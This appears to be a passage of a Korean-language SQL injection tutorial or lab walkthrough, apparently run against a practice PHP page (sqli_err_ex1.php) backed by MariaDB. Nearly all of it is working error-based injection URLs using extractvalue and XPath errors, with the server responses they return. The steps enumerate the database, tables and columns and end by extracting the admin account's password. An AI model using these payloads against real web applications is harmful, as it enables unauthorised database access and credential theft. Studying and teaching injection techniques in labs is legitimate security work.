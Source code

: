 ```bash
Employee Info

Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''Faye Valentine''' at line 1
```


2. XPath 기법을 통해 웹 애플리케이션이 통신중인 데이터베이스명 열거
```bash
https://.../sqli_err_ex1.php?name=Faye%20Valentine%27%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,schema_name)%20FROM%20information_schema.schemata%20LIMIT%203,1)))--%20

Employee Info

Error: XPATH syntax error: '::mydb'
``` 

3. 테이블명 열거
```bash
https://.../sqli_err_ex1.php?name=Faye%20Valentine%27%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,table_name)%20FROM%20information_schema.TABLES%20WHERE%20table_schema=%27mydb%27%20LIMIT%203,1)))--%20

Employee Info

Error: XPATH syntax error: '::users'
```

4. users 테이블을 대입하여 컬럼을 열거
```bash
# user 칼럼 확인
https://.../sqli_err_ex1.php?name=Faye%20Valentine%27%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,column_name)%20FROM%20information_schema.COLUMNS%20WHERE%20TABLE_NAME=%27users%27%20LIMIT%204,1)))--%20

Employee Info

Error: XPATH syntax error: '::user_id'

# password 칼럼 확인
https://.../sqli_err_ex1.php?name=Faye%20Valentine%27%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,column_name)%20FROM%20information_schema.COLUMNS%20WHERE%20TABLE_NAME=%27users%27%20LIMIT%206,1)))--%20

Employee Info

Error: XPATH syntax error: '::password'
```

5. 테이블명과 칼럼명 확인 -> users 테이블의 데이터를 열거하여 admin 계정 패스워드 획득
```bash

https://.../sqli_err_ex1.php?name=Faye%20Valentine%27%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(user_id,0x3a,password)%20FROM%20users%20LIMIT%200,1)))--%20


Employee Info

Error: XPATH syntax error: ':admin:pass'
```
